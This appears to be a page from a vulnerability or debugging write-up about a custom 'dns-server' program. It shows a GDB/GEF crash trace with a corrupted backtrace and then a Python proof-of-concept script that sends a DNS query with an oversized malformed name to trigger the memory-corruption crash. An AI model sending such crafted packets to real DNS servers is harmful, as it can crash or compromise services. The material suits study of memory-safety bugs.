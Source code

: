 ```
[#0] Id 1, Name: "dns-server", stopped 0x7ffff7f51959 in __memmove_avx_unaligned_erms (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7f51959 → __memmove_avx_unaligned_erms()
[#1] 0x555555555a7c → process_request(recvbuf=0x7fffffffdcb0, fd=0x4)
─────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  bt
#0  __memmove_avx_unaligned_erms () at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:498
#1  0x0000555555555a7c in process_request (recvbuf=0x7fffffffdcb0, fd=0x4) at dns-server.c:181
#2  0xff0000000000007f in ?? ()
#3  0x000000000000007f in ?? ()
#4  0xfff7dd8330000000 in ?? ()
#5  0x000000000000007f in ?? ()
#6  0x0000000000000000 in ?? ()
```

So we can see, that this is a crash resulting from a memory read. Now to help debug this, we run a quick python3 script to send a specially crafted DNS query (`poc.py`):

```
import socket

if __name__ == "__main__":
    #print("poc")
    conn = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

    conn.connect(("127.0.0.1", 563))


    ID = b"\x12\x23"
    FLAGS = b"\x01\x00"
    QDCOUNT = b"\x00\x01"
    ANCOUNT = b"\x00\x00"
    NSCOUNT = b"\x00\x00"
    ARCOUNT = b"\x00\x00"

    HEADER = ID + FLAGS + QDCOUNT + ANCOUNT + NSCOUNT + ARCOUNT

    QNAME = b"\xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff\xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff\x00"
    QTYPE = b"\x00\x01"
    QCLASS = b"\x00\x01"

    QUESTION = QNAME + QTYPE + QCLASS

    PACKET = HEADER + QUESTION

    conn.send(PACKET)
```
